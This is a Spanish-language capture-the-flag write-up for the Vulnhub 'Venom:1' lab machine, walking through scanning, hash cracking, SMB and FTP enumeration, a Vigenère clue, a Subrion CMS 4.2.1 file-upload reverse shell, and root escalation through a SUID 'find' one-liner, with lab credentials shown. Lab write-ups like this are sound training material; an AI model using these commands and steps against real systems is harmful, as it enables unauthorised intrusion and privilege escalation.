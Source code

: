 #  Venom:1 - Vulnhub
### SO : Linux
### Dificultad : Fácil

![machine_vulnhub](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/maquina_vulnhub.png)

## Técnicas Utilizadas
- Cracking Hashes
- FTP Enumeration
- Crypto Challenge - Vigenere Cipher
- Subrion CMS v4.2.1 Exploitation - Arbitrary File Upload (Phar files) [RCE]
- Listing system files and discovering privileged information
- Abusing SUID binary (find) [Privilege Escalation]






## Reconocimiento 
Primero vamos a realizar un descubrimiento de hosts, para saber la ip de la maquina que vamos a vulnerar
```css
arp-scan -I ens33 --localnet --ignoredups
```
![arp-scan](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/arp-scan.png)

Una vez identificada la IP de la maquina victima, podemos comprobar la conexion entre las maquinas haciendo un ping
```css
ping -c 1 192.169.59.146
```
```ruby
 ping -c 1 192.168.59.146
PING 192.168.59.146 (192.168.59.146) 56(84) bytes of data.
64 bytes from 192.168.59.146: icmp_seq=1 ttl=64 time=1.96 ms

--- 192.168.59.146 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1.959/1.959/1.959/0.000 ms
```
Mediante el TTL podemos averiguar que tipo de SO es la maquina victima ya que las Maquinas suelen tener: `Windows -> 128` , `Linux -> 64`

Seguimos con el descubrimiento de puertos abiertos con *Nmap*
```ruby
nmap -p- -sS --min-rate 5000 -vvvv -n -Pn -sCV 192.168.59.146
```
```ruby
PORT    STATE SERVICE     REASON         VERSION
21/tcp  open  ftp         syn-ack ttl 64 vsftpd 3.0.3
80/tcp  open  http        syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  http        syn-ack ttl 64 Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 00:0C:29:40:3C:1F (VMware)
Service Info: Hosts: VENOM, 127.0.1.1; OS: Unix

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21131/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 23654/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 57901/udp): CLEAN (Failed to receive data)
|   Check 4 (port 25025/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: venom
|   NetBIOS computer name: VENOM\x00
|   Domain name: \x00
|   FQDN: venom
|_  System time: 2025-03-04T21:45:46+05:30
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| nbstat: NetBIOS name: VENOM, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   VENOM<00>            Flags: <unique><active>
|   VENOM<03>            Flags: <unique><active>
|   VENOM<20>            Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-time: 
|   date: 2025-03-04T16:15:46
|_  start_date: N/A
|_clock-skew: mean: -6h49m59s, deviation: 3h10m30s, median: -5h00m00s
```
Tenemos 5 puertos abiertos, `21,80,139,443,445` con los servicios vistos anteriormente, vamos a ver que hay en la web que aloja en el puerto `80:http` 
Encontramos algo sospechoso, `ctrl +u` para ver el codigo fuente
![web_sospechoso](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/web_sospehoso.png)
![hash_web](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/hash_web.png)

Nos encontramos un Hash que viendo las caracteristicas que posee, como caracteres escritos del {a-f}, tamaño de 32 caracteres, apunta a ser un hash MD5, 
de todas maneras podemos comprobar con `hash-identifier` para corroborar ese hash
![hash_identifier](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/hash_identifier.png)

Podemos crackearlo con una web muy conocida que es ![CrackStation](https://crackstation.net/) o de manera local en consola, ya sea con `Hashcat` o `John`
```ruby
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt --force
```
![hashcat_cracking](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/hashcat_craking.png)

Nos da de resultado `hostinger`, pareces ser contraseña, tenemos que enumerar un poco mas como los servicios SMB por ejemplo para ver si encontramos usuarios 
para esto podemos usar una herramienta llamada `enum4linux`
```ruby
enum4linux 192.168.59.146
```
![enum4linux](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/enum4linux.png)

tambien se podria enumerar mediante `rpcclient` mediante una sesion nula y luego ir listando los SIDs, Entonces como tenemos el usuario `hostinger` y la contraseña
`hostinger`, vamos a hacer un intento de logeo en `ftp`
![logeoftp](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/logeoftp.png)

Vemos que el .txt tiene informacion importante vamos a analizarlo ahora, son cadenas en base64 si las rompemos tendremos lo siguiente

![vigenere_cifrado](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/cifrado_vigenere.png)

Se esta aplicando el `cifrado vigenere estandar` y nos da la URL donde debemos romperla, claramente este cifrado necesita de una `llave` para poder romperlo, de momento
no tenemos pista de alguna llave, pero recordando al inicio, hubo un hash, que nos sirvio como `contraseña` podemos probar si esa es la key y ver que sucede

![cyberchef](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/cyberchef.png)

# EXPLOTACION

Tenemos ya el decode y otra pista que nos dio el `hint.txt`, se esta aplicando virtual hosting porque nos proporciono una url que es `venom.box`, lo agregamos al 
`/etc/hosts`
![venom_box](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/venombox.png)

tenemos la siguiente pagina, si hacemos un `ctrl + u` para sapear un poco el codigo fuente la pagina es un *Subrion CMS v 4.2*, y hay un `log in` si probamos 
las credenciales de administrador que tenemos que son `dora:E7r9t8@Q#h%Hy+M1234`, estamos adentro como administrador

![configuracion_page](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/configuracion_page.png)

Si clickeamos el simbolo de configuracion nos lleva a una dashboard de URL `http://venom.box/panel/`, y nos especifica mas la version que es un  `Subrion CMS v4.2.1`, esto nos
incita a buscar vulnerabilidades con 
```css
searchsploit subrion 4.2.1
```
![searchsploit](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/searchsploit.png)

Si, miramos bien tenemos varias vulnerabilidas para explotar, descartando algunas como *(CSRF) (Add Admin)* supongo que esta mal escrito, nosotros ya tenemos priviolegios de administrador
podemos hacer un `Arbitrary File Upload` que contenga una reverse shell o algun script del que nos podamos aprovechar

Mirando el codigo, al parecer hay un directorio llamando `uploads` donde se almacenan los archivos cargados

![web_uploads](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/webuploads.png)

Vamos a usar el archivo de PentestMonkey, a ver si curra y logramos el acceso
![revere_monket](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/revsershell_monkey.png)

Ajustando parametros como extension del archivo, Ip y Puerto del atacante ya estamos listo para subirlo, OJO: Analizando el codigo 
![replacepanel](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/replace_panel.png)

Se esta remplazando `/panel por ''` eso quiere decir que al buscar nuestro file upload debe estar en la ruta `http://venom.box/uploads/cmd.phar`
![ruta](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/ruta.png)
![reverseshell_acceso](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/revershell_accesos.png)

hemos obtenido una reverse shell con exito, vamos a hacer el tratamiento de la tty
```ruby
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
          reset xterm
export TERM=xterm
export SHELL=bash
```
# ESCALADA DE PRIVILEGIOS
Migramos al usuario `hostinger:hostinger`, y despues de buscar archivos por todo lado, encontramos el `.htaccess` y encontamos lo siguiente
![contra_nathan](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/contrase_nathan.png)

Parece ser la contraseña de Nathan, probamos y efectivamente, para escalar privilegios a root, vemos que tenemos prohibido ejecutar `su` Entonces buscamos binarios con permios SUID
```ruby
find / -perm -4000 2>/dev/null
```
![esacalada_root](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/escalada_a_root.png)

vemos que `find` tiene permisos SUID, entonces visitamos una web bastante conocida para escalar privilegios y bypassear algunos sistemas de seguridad que es:
![FTFOBins](https://gtfobins.github.io/)

```bash
sudo find . -exec /bin/sh \; -quit
```
![resuelto](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/resuelto.png)

# HEMOS VULNERADO LA MAQUINA






